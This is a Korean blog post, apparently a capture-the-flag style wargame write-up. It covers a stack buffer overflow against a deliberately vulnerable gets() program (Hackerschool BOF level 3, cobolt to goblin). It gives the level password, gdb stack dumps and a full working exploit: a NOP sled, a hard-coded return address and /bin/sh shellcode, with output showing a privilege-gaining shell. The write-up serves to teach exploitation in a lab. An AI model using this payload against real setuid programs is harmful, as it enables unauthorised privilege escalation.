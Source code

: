 ```yaml
---
layout: post
title: "[Wargame]  해커스쿨 BoF LEVEL3 (cobolt -> goblin) : small buffer + stdin"
date: 2015-11-01 17:30
comments: true
categories:  wargame
tags: [bof]
---
```


- id = cobolt 
- pw = hacking exposed

<!--more-->

## 문제 : goblin.c

16 bytes small buffer 이며, 외부 입력을 command line argument 가 아니라 stdin 으로 받는 `gets()` 가 사용됨.

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```

## GDB 디버깅 시 stdin 입력하는 방법

이번 문제는 stdin 으로 입력을 넣는데, gdb 로 어떻게 디버깅을 해야하는지 몰랐다.

[gdb - debugging with piped input (not arguments)](http://stackoverflow.com/questions/8422259/gdb-debugging-with-piped-input-not-arguments)

`stdin` 입력을 추가 파일로 저장을 한 후 gdb 실행 한 다음에 `run < input_file` 형식으로 실행을 한다.

```bash
gdb ./vuln_prog
run < filename_with_input
```

Stack 확인하기 위하여 `AA` 을 20bytes 를 넣고

```bash
[cobolt@localhost cobolt]$ python -c 'print "\x90"*20' > test.in

[cobolt@localhost cobolt]$ xxd test.in
0000000: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000010: 9090 9090 0a                             .....
```

GDB 로 붙여서 LR 을 확인해보자. `0xbffffb1c` 에 LR 에 저장된 위치임. 이 값에 뒤에 넣은 shellcode 로 jump 할 위치로 바꾸어주면 된다.

```bash
(gdb) b *main+15
Breakpoint 2 at 0x8048407: file goblin.c, line 10.
(gdb) r < test2.in
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/cobolt/./goblin2 < test2.in

Breakpoint 2, 0x8048407 in main () at goblin.c:10
10          gets(buffer);
(gdb) x/50x $esp
0xbffffb04:     0xbffffb08      0x90909090      0x90909090      0x90909090
0xbffffb14:     0x90909090      0x90909090      0xbffffb34      0x90909090
0xbffffb24:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb34:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb44:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb54:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb64:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb74:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb84:     0x315e18eb      0x074688c0      0x89087689      0x0bb00c46
0xbffffb94:     0x4e8d1e8d      0x0c568d08      0xe3e880cd      0x2fffffff
0xbffffba4:     0x2f6e6962      0xbf006873      0xbffffded      0xbffffdf8
0xbffffbb4:     0xbffffe09      0xbffffe1a      0xbffffe22      0x00000000
0xbffffbc4:     0x00000003      0x08048034
```

## Exploit

```bash
NOP (20) + LR (4) + "\x34\xfb\xff\xbf" + NOP(100) + ShellCode

`python -c 'print "\x90"*20 + "\x34\xfb\xff\xbf" + "\x90"*100 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'`
```

여기서 또 하나의 문제는 미리 만들어 놓은 값을 `stdin` 으로 실행파일에 넣어주는 형식이다.  (사실 실제로 해보면 이런 내용이 가장 어렵다. 해보지 않으면 절대 알 수 없는 내용이다.)

### stdin 입력

```bash
(python -c 'print "XXXXX"';cat)|./goblin
```

### command line 입력

```bash
./executable `python -c 'print "XXXXX"'`
```

## 최종 실행

```bash
[cobolt@localhost cobolt]$ /bin/bash2
[cobolt@localhost cobolt]$ (python -c 'print "\x90"*20 + "\x34\xfb\xff\xbf" + "\x90"*100 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"';cat)|./goblin
4^1F嵬bin/sh
id
uid=502(cobolt) gid=502(cobolt) euid=503(goblin) egid=503(goblin) groups=502(cobolt)

my-pass
euid = 503
hackers proof
```

### Final exploit

```bash
(python -c 'print "\x90"*20 + "\x34\xfb\xff\xbf" + "\x90"*100 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"';cat)|./goblin
```
